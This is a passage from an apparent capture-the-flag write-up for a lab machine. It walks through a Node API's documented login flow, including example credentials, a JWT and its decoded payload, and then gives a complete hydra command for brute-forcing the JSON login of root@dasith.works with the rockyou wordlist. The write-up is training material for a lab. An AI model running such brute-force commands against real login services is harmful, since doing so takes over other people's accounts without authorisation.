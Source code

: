 While a login would look like:
```
POST http://localhost:3000/api/user/login 
 {
	"email": "root@dasith.works",
	"password": "Kekc8swFgD6zU"
  }
   
```
And would then return a auth-token.
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjI4NzI3NjY5fQ.PFJldSFVDrSoJ-Pg0HOxkGjxQ69gxVO2Kjn7ozw9Crg 
```
If we pass that auth token to a [JWT decoder](https://jwt.io/), we would get the decoded values:

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "_id": "6205894901291c0464dfdf16",
  "name": "theadmin",
  "email": "root@dasith.works",
  "iat": 1644530070
}
HMACSHA256(
    base64UrlEncode(header).base64UrlEncode(payload),secret
)
```
And finally we could access the private route through the following request:
```
GET http://localhost:3000/api/priv 
auth-token : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjI4NzI3NjY5fQ.PFJldSFVDrSoJ-Pg0HOxkGjxQ69gxVO2Kjn7ozw9Crg
content-type: application.json

{
    "key":"secretpassword"
}
```
The reply is what kind of user we are, there are only two types: normal user and administrator.
So according to the docs, if we follow this process we could register a user, authenticate it, get a authentication token and then check our privileges. If we are the admin we would get a reply that tells us our role. With that in mind we should try to get a authentication token to see if we can do any sql injects or try to register a user as admin or try the credentials in the docs.

#Rabbit hole
So with the general flow of the program in mind, we see that the user dasith is used in the example. If we try to register a user called dasith, we get a notification that that user excist. Therefore we could fire up hydra to do some bruteforcing to try to obtain his password.
Hydra is extreamly picky on the syntax, and now we are trying to bruteforce through a json application. Therefore a syntax like this would suffice to find the password:
` hydra -l root@dasith.works -P /usr/share/wordlists/rockyou.txt "http-post-form://10.10.11.120/api/user/login:{\"email\"\: \"root@dasith.works\",\"password\"\: \"^PASS^\"}:F=Password is|must be at least:H=Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8:H=Accept-Language: en-US,en;q=0.5:H=Accept-Encoding: gzip, deflate:H=Connection: close:H=Content-Type: application/json" -s 3000`
The interaction would simply look like this:
```
POST /api/user/login HTTP/1.0
Accept:  text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language:  en-US,en;q=0.5
```